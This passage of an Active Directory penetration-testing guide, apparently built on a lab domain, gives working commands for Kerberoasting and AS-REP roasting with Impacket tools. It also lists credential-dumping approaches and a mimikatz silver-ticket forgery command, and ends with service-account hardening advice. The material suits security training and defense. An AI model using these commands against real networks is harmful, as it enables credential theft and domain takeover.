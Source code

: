 ```bash
dir \\server1.marvel.local\c$
dir \\server2.marvel.local\c$

# 4. Try alternative credential dumping methods
# If LSA dump fails, try other approaches:
# - SAM database dump
# - Registry credential extraction
# - Process memory dumping
```

## Advanced Techniques

### Targeted Kerberoasting
```bash
# Focus on high-value targets
# - SQL Server service accounts
# - Exchange service accounts
# - SharePoint service accounts
# - Custom application service accounts

# Target specific encryption types
GetUserSPNs.py domain.local/username:password -dc-ip dc_ip -request -target-domain domain.local
```

### ASREPRoasting Integration
```bash
# Combine with ASREPRoasting for comprehensive attack
GetNPUsers.py domain.local/username:password -dc-ip dc_ip -request

# Look for users with "Do not require Kerberos preauthentication"
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```

### Golden/Silver Ticket Preparation
```bash
# Use service account hash for silver tickets
# Extract service account NTLM hash from cracked password
python3 -c "import hashlib; print(hashlib.new('md4', 'crackedpassword'.encode('utf-16le')).hexdigest())"

# Create silver ticket with mimikatz
kerberos::golden /user:administrator /domain:domain.local /sid:domain_sid /target:server.domain.local /service:cifs /rc4:service_account_hash /ptt
```

## Defense and Detection

### Preventive Measures
```bash
# Strong service account passwords
# - Minimum 25+ character passwords
# - Use managed service accounts (MSA/gMSA)
# - Regular password rotation

# Group Managed Service Accounts (gMSA)
New-ADServiceAccount -Name gMSA-WebService -DNSHostName web.domain.local -PrincipalsAllowedToRetrieveManagedPassword "WebServers$"

# Managed Service Accounts (MSA)
New-ADServiceAccount -Name MSA-SQLService -RestrictToSingleComputer
```
